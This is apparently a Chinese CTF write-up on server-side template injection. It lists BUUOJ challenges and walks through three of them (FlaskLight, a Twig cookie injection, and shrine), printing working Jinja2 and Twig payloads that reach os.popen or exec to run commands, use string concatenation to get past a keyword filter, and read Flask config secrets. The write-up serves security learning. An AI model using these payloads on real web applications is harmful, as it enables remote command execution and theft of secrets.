

## SSTI：

## 目录

### 简单

-   ~~[CSCCTF 2019 Qual]FlaskLight~~

### 签到

-   ~~[BJDCTF2020]Cookie is so stable twig模板注入~~
-   ~~[WesternCTF2018]shrine 想方设法获取config~~
-   [CISCN2019 华东南赛区]Web11 smarty模板注入
-   [BJDCTF2020]The mystery of ip 简单的flask注入
-   [GYCTF2020]FlaskApp debug模式一定条件下可以窃取出来pin码命令执行，但是题目过滤的不够严格导致可以直接打，比签到难一点
-   [pasecactf_2019]flask_ssti 编码绕过
-   [GWCTF 2019]你的名字
-   [CISCN2019 总决赛 Day1 Web3]Flask Message Board

### 中等

-   [护网杯 2018]easy_tornado 因为框架比较冷门，如果不看WP的话需要自己手动翻手册，我觉得算中上偏难的题目。
-   [CISCN2019 华东南赛区]Double Secret 国赛半决赛因为大家互相出题所以都互相恶心，这题整个MD4，线下环境怎么打？

### 困难

-   [QWB2021 Quals]托纳多

### 脑洞

-   [RootersCTF2019]I_<3_Flask 用name注入。？怎么想到的

## Writeup

### [CSCCTF 2019 Qual]FlaskLight


发现提示


测试成功


列出所有子类


放入find.py跑一下敏感函数


构造payload

```python
{{[].__class__.__bases__[0].__subclasses__()[127].__init__.__globals__['os'].popen(cat /xxx/flag)}}
```

出现未知错误



这里应该是关键字过滤

那就绕它！

```python
{{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('whoami').read()}}
```


同理可构造payload

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['__import__']('os').popen('whoami').read()}}
```

读取flag

```python
http://91ff8d9a-4ad0-491a-8d5d-c55157088e4f.node4.buuoj.cn:81/?search={{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek ').read()}}
```


### [BJDCTF2020]Cookie is so stable


存在模板注入


判断为twig注入

payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```

写入输入框没有效果

hint页面有提示


抓包分析


发现cookie中有user接受我们输入的值，猜测这个模板注入参数在cookie中


成功获得flag

### [WesternCTF2018]shrine 想方设法获取config

进去源码如下

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```

第一个路由是显示源码的，第二个路由可以传入参数，而且有黑名单过滤，猜测要读取配置文件


测试一下存在模板注入

要利用模板注入来读取配置，config和self被过滤，但我们仍然可以利用url_for()和get_flashed_messages()函数来读取config


发现


current_app意思应该是当前app，那我们就当前app下的config


flag出来了

最终payload

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{url_for.__globals__['current_app'].config['FLAG'])}}
```

同理

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

